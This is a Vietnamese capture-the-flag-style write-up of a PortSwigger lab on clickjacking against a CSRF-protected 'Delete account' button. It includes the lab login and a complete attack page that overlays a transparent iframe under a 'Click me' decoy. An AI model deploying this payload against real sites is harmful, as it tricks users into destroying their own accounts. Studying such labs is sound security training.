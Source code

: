 ```yaml
---
title: 'Web09: Clickjacking (UI redressing)'
tags: [web9]

---
```


# **1. Lab: Basic clickjacking with CSRF token protection**
>Lab này chứa chức năng đăng nhập và nút xóa tài khoản được bảo vệ bằng mã thông báo CSRF. Người dùng sẽ nhấp vào các phần tử hiển thị từ "nhấp chuột" trên trang web mồi nhử.
Để giải quyết bài lab, hãy tạo một số HTML đóng khung trang tài khoản và đánh lừa người dùng xóa tài khoản của họ. Lab được giải quyết khi tài khoản bị xóa.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau:` wiener:peter`
![image](https://hackmd.io/_uploads/S127aQxUR.png)

>Đăng nhập bằng `wiener:peter`, tại trang `/my-account` xuất hiện chức năng **Delete account** được bảo vệ bằng CSRF Token:![image](https://hackmd.io/_uploads/ByafAQlLC.png)

>Ta sẽ tạo một trang web giả để đánh lừa nạn nhân click vào **Delete account** của họ bằng kĩ thuật Clickjacking. Trang web giả có mã HTML như sau:
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 600px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 512px;
        left: 65px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a46009004e2e06981d67f4b001f009b.web-security-academy.net/my-account"></iframe>
```

>Cụ thể nó sẽ tạo một iframe của trang `/my-account` và sử dụng CSS làm sao cho dòng chữ `Click me` sẽ đè lên `Delete account`. Tất nhiên iframe sẽ bị làm trong suốt đi bằng thuộc tính opacity. Và vì nạn nhân luôn click vào chữ click nên nó sẽ vô tình kích hoạt chức năng `Delete account`.

>Lưu trang web giả lên exploit server: ![image](https://hackmd.io/_uploads/HJIa1EgUR.png)

>Ta sẽ căn chỉnh dòng text "Click me" sao cho đè lên dòng chữ "Delete account", chỉnh `opacity: 0.00001;` để iframe trong suốt gần như hoàn toàn và chứa chữ Click me để đánh lừa nạn nhân: ![image](https://hackmd.io/_uploads/BJiEeEeUC.png)
